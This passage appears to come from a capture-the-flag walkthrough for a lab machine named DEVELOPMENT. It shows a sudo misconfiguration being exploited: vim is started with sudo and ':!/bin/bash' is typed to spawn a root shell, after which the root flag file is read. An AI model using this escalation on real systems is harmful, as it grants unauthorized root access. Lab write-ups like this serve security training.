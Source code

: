 Patrick can run `vim` as `root` without password. As `vim` allows to execute commands, we can have a root shell. Let's start `vim` (`sudo vim`) and type `:!/bin/bash` to spawn a root shell:

## Root flag

And now, let's get the root flag:

~~~
root@development:/root# cat proof.txt 
Congratulations on rooting DEVELOPMENT! :)
~~~
